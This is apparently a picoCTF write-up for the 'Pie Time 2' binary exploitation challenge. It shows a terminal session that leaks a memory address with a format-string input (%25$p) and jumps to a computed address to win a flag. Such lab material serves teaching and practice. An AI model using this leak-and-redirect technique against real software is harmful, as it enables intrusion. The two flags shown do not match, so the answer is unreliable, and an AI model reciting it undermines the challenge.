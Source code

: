 # [Pie Time 2 (Binary Exploitation, Medium)](https://play.picoctf.org/practice/challenge/491) - 
- Description: Can you try to get the flag? I'm not revealing anything anymore!!
- Hint 1: What vulnerability can be exploited to leak the address?
- Hint 2: Please be mindful of the size of pointers in this binary
- Solution:
```bash
schufot-picoctf@webshell:~$ nc rescued-float.picoctf.net 59092
Enter your name:%25$p
0x63e485ca3400
 enter the address to jump to, ex => 0x12345: 0x63e485ca336a
You won!
picoCTF{p13_5h0u1dn'7_134k_9650b792}
```
- Flag: `picoCTF{b4s1c_p051t10n_1nd3p3nd3nc3_31cc212b}`
- Explanation:

